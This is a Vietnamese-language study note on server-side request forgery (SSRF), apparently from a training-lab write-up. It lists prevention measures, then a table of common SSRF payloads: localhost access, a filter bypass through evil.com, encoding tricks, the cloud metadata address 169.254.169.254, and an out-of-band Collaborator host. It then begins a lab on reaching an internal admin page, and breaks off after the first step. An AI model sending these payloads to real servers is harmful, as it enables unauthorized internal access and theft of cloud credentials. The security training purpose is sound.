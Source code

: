 **Cách phòng tránh:** 

1. Không bao giờ trust URL do người dùng cung cấp (kể cả từ client hoặc API khác).
2. Nếu bắt buộc phải fetch URL từ đầu vào:
3. - Duyệt whitelist domain rõ ràng và kiểm tra nghiêm ngặt (không chỉ kiểm tra chuỗi `localhost`).
   - Resolve DNS rồi kiểm tra IP có nằm trong dải private/internal không.
   - Chặn địa chỉ IP nội bộ, loopback (127.0.0.1), metadata IP (169.254.169.254), short IP (e.g. `2130706433` = `127.0.0.1`).
4. Chặn `Redirect`, `URL encoding`, `double encoding`, IP integer.
5. Thực hiện request từ môi trường cách ly (sandboxed) không có quyền truy cập nội bộ.
6. Kiểm tra log request bất thường và dùng WAF chặn truy vấn SSRF điển hình.

**Common Payload:**

| **Mục tiêu**         | **Payload**                                                 |
| -------------------- | ----------------------------------------------------------- |
| Truy cập localhost   | `http://127.0.0.1/` / `http://localhost/` / `http://127.1/` |
| Bypass filter        | `http://127.0.0.1@evil.com` / `http://127.0.0.1/%2561dmin`  |
| Open redirect SSRF   | `/redirect?url=http://169.254.169.254`                      |
| Cloud metadata       | `http://169.254.169.254/latest/meta-data/`                  |
| DNS OOB (blind SSRF) | `http://<your-collaborator-id>.burpcollaborator.net`        |

## Apprentice: 

### Lab 1: Basic SSRF against the local server

Lab des: 

Lợi dụng lỗ hổng trong chức năng kiểm tra tồn kho (stock check) để tấn công SSRF, truy cập nội bộ `http://localhost/admin` và xóa user carlos.

Steps: 

- Kiểm tra chức năng `Check stock`

![image-20250719185303540](./image/image-20250719185303540.png)
